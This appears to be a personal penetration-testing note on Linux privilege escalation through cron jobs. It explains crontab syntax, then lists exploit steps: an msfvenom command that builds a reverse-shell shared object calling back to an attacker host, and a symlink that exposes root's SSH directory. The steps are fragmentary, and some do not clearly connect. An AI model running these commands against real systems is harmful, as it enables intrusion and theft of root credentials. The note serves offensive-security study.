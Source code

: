 [Linux Privilege Escalation by Exploiting Cronjobs - Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/)
[Cron Jobs – Linux Privilege Escalation - Juggernaut-Sec](https://juggernaut-sec.com/cron-jobs-lpe/)

Cron is another tool that can be used in Linux systems to schedule and automate processes. It allows users and administrators to execute tasks at a specific time or within specific intervals. For the above examples, we can also use Cron to automate the same tasks. We just need to create a script and then tell the cron daemon to call it at a specific time.

Similar vulnerabilities to [[AutoRun SysInternals]]
# Guide
To set up the cron daemon, we need to store the tasks in a file called `crontab` and then tell the daemon when to run the tasks.

The structure of Cron consists of the following components:

|**Time Frame**|**Description**|
|---|---|
|Minutes (0-59)|This specifies in which minute the task should be executed.|
|Hours (0-23)|This specifies in which hour the task should be executed.|
|Days of month (1-31)|This specifies on which day of the month the task should be executed.|
|Months (1-12)|This specifies in which month the task should be executed.|
|Days of the week (0-7)|This specifies on which day of the week the task should be executed.|

For example, such a crontab could look like this:

Code: txt

```txt
# System Update
* */6 * * /path/to/update_software.sh

# Execute scripts
0 0 1 * * /path/to/scripts/run_scripts.sh

# Cleanup DB
0 0 * * 0 /path/to/scripts/clean_database.sh

# Backups
0 0 * * 7 /path/to/scripts/backup.sh
```





# Exploit Examples

## Compiled Program

1. Run `lld` on the program

```
linux-vdso.so.1 =>  (0x00007ffd61a5c000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007f717136a000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7171738000)
```

2. Generate a malicious shared object file named `utils.so` and place it in the `/usr/local/lib/dev directory`.

```
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=kali 
```

3. Link the file:

```
 ln -s /root/.ssh /tmp/backup/-root-.ssh
```